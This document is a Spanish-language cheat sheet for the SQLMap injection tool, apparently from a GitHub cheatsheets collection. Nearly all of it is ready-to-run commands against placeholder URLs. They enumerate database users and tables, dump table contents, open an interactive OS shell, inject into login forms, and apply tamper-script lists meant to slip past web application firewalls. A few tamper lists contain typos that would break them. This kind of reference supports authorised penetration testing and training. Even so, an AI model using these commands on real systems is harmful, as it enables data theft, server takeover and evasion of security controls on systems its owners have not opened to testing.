 # SQLMap Cheat Sheet

#### Uso simple
```
sqlmap -u "<URL>"
```

#### Conocer el usuario actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-user
```

#### Conocer la Base de Datos actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-db
```

#### Especificar el Sistema Gestor de Base de Datos
```
sqlmap -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar los usuarios de la BD del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --users
```

#### Listar las Bases de Datos del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Listar las columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Obtener un Shell de OS interactivo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --os-shell
```

#### Listar BD, usando un parámetro de 'User-Agent' con el método GET
```
sqlmap -u '<URL>' -p User-Agent --method=GET --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --dbs
```

#### Colocar un parámetro y usar la técnica de UNION
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U
sqlmap -u "http://site.com/index.php?search=n" -p search --technique=U
```

#### Colocar un parámetro, usar la técnica de UNION, usando un verbose nivel 3 e ignorando los resultados almacenados del query
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --banner -v3 --fresh-queries
```

#### Colocar un parámetro, usar la técnica de UNION y enumerar los usuarios de la BD
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --users
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --banner
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --dbs
```

#### Enviar las peticiones a nuestro propio proxy
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --dbs
```

#### Usar en formulario de Login cargado desde un archivo, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -r "<PATH_FILE>" --data='user=a&pass=a' -p user --technique=B --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --cookie="name:value" --no-cast --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=2 --level=3 --tamper=space2comment,randomcase,between --no-cast --dbs

sqlmap -u "<URL>" -p <PARAMETER> --cookie="name:value" --threads=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --tamper=space2comment,randomcase,between,charencode --not-string='A database error has been detected and fowarded to system admin.' --level=3 --risk=2 --dbms=mysql -v 3 --dbs
```

## Tampers

#### MSSQL
```
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,percentage,randomcase,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

#### MySQL
```
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

#### PostgreSQL
```
--tamper=xforwardedfor,space2comment,space2plus,space2randomblank,between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere
```

#### SQLite
```
--tamper=space2plus,unionalltounion.unmagicquotes,xforwardedfor,ifnull2ifisnull,randomcase,securesphere,space2comment,space2dashmmultiplespaces,nonrecursivereplacement 
```

## Techniques

- ``` B ```: Boolean-based blind
- ``` E ```: Error-based
- ``` U ```: Union query-based
- ``` S ```: Stacked queries
- ``` T ```: Time-based blind
- ``` Q ```: Inline queries

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)